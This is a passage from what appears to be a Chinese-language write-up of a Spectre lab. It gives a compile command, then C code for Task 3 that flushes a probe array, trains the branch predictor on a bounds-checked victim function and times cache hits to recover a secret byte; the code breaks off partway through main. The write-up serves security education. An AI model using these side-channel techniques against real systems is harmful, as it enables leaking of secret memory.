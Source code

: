 保存为`FlushReload.c`，然后编译运行。

```
gcc -march=native FlushReload.c
```

![image-20220117222452096](spectre.assets/image-20220117222452096.png)

## Task 3: Out-of-Order Execution and Branch Prediction

```c
#include <stdio.h>
#include <stdint.h>
#include <emmintrin.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024
int size = 10;
uint8_t array[256 * 4096];
uint8_t temp = 0;
void victim(size_t x)
{
	if (x < size) {	// MARK 1
		temp = array[x * 4096 + DELTA];	// MARK 2
	}
}
void reloadSideChannel()
{
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
	for (i = 0; i < 256; i++) {
		addr = &array[i * 4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD) {
			printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
			printf("The Secret = %d.\n", i);
		}
	}
}
void flushSideChannel()
{
	int i;
// Write to array to bring it to RAM to prevent Copy-on-write
	for (i = 0; i < 256; i++) array[i * 4096 + DELTA] = 1;
// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i * 4096 + DELTA]);
}
int main()
{
	int i;
// FLUSH the probing array
	flushSideChannel();
// Train the CPU to take the true branch inside victim()
	for (i = 0; i < 10; i++) {	// MARK 3
		victim(i);		// MARK 4
	}
```